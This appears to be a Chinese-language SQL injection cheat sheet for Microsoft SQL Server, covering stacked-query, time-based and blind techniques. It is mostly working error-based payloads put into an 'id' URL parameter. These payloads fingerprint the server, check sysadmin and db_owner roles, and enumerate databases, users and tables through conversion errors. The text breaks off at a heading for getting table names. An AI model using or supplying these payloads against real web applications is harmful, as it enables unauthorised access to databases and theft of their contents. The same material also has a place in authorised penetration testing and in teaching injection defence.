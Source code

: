 多语句 时间注入 盲注

user_name() 当前数据库用户名

db_name() 当前数据库名称

@@version

```mssql
select is_srvrolemember('sysadmin');  判断当前是否为sa
select is_srvrolemember('db_owner');  判断当前用户写文件、读文件的权限（db_owner）
select is_srvrolemember('public');  判断是否有public权限，可以爆破表
```

 **判断mssql**

1. ** `id=1' and 1<(select%20 count(*) from sysobjects)--`**
2. **`?id=1' and exists (select * from sysobjects)--`**

```mssql
//报错显示数据库信息

//当前数据库
#payload
?id=1' and 1<(select db_name())--               

//当前数据库用户
#payload
?id=1' and 1<(select user_name())--                       

//数据库版本
#payload
/id=1' and 1<(select @@version)--                       

//判断当前数据库用户权限
#payload
?id=1' and 1=(select is_srvrolemember('sysadmin'))--                      

//查看数据库的数量
#payload 
?id=1' and 1<(select count(*) from Master.dbo.SysDatabases)--                       

//查看数据库名
#payload
?id=1' and 1<(select top 1 name from Master.dbo.SysDatabases)--                       

//查看所有的数据库名    注：条件中的top 1往后类推逐个推演
//payload
id=1' and 1<(select top 1 name from Master.dbo.SysDatabases where name not in (select top 1 name from master.dbo.sysdatabases))--                     
//查看库名，更换A的数值即可 
id=1' and (convert(int,db_name(A)))>0 --

convert(type,data)//将data转换为指定类型

//查看的数据库名为数值类型
#payload 	查看表的名称为数值转成字符和数值比较报错显示表名
?id=1' and 1<('~' %2b (select top 1 cast(id as nvarchar(4000)) from test..users)%2b'~')--                 
//查看选择的数据库中表的数量
#payload
?id=1' and 1<(select count(*) from information_schema.tables)--

查看数据库的数量

//获取表的名称
#payload
```